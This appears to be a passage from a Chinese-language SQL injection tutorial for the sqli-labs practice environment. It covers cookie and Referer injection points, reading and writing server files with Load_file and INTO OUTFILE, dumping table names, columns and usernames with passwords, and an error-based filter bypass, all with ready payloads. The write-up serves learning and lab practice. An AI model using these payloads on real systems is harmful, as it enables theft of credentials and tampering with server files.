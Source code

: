 ### 9.cookie注入
注入位置在http请求的cookie处
### 10.HTTP-Referer注入
注入位置在http请求的Referer处
### 11.SQL注入读取文件
Load_file(filename): 读取文件并返回改文件的内容作为一个字符串。
使用条件：
A.必须有权限读取且文件必须完全可读
B.欲读取文件必须在服务器上
C.必须指定文件的完整路径(绝对路径)
D.欲读取文件的大小必须小于max_allowed_packet
示例:
{% codeblock %}
?id=-1' union select 1,2,Load_file("D:\\phpstudy_pro\\WWW\\sqli-labs\\Less-1\\index.php") --+﻿
{% endcodeblock %}
写文件（into outfile)：
{% codeblock %}
?id=-1' union select 1,2,3 into outfile "D:\\phpstudy_pro\\WWW\\sqli-labs\\Less-1\\index.php" --+
{% endcodeblock %}
示例:
Sqli-labs Less-7
测试发现id=1'报错，但把后面的语句注释掉扔报错，还有括号闭合，发现加两个括号判断为(('$id'))闭合，再根据提示Use outfile…，应该是使用导出语句了。
（1）首先判断是否有权限：
{% codeblock %}
?id=1')) and (select count(*) from mysql.user)>0 --+
{% endcodeblock %}
没有报错，具有root权限。
（2）于是将可以数据导出, 导出所有表：
{% codeblock %}
?id=-1')) union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) into outfile "D:\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\result.txt" --+
{% endcodeblock %}
（3）导出user表中所有列名：
{% codeblock %}
?id=-1')) union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users') into outfile "D:\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\result.txt" --+
{% endcodeblock %}
（4）导出用户名和密码
{% codeblock %}
?id=-1')) union select 1,2,(select group_concat(username,password) from users) into outfile "D:\\phpstudy_pro\\WWW\\sqli-labs\\Less-7\\result.txt" --+
{% endcodeblock %}
注意：在Mysql中，需要注意路径转义的问题，即用双斜杠分隔。
### 11.绕过
(1).绕过注释符过滤(#,--+)
示例：
{% codeblock %}
Sqli-labs Less-13
{% endcodeblock %}
方法一(报错注入)
{% codeblock %}
?id=1' or (extractvalue(1,concat(0x7e,version()))) or '
?id=1' or (extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())))) or '
{% endcodeblock %}
方法二(闭合后面的内容)
{% codeblock %}
?id=' union select 1,'
{% endcodeblock %}
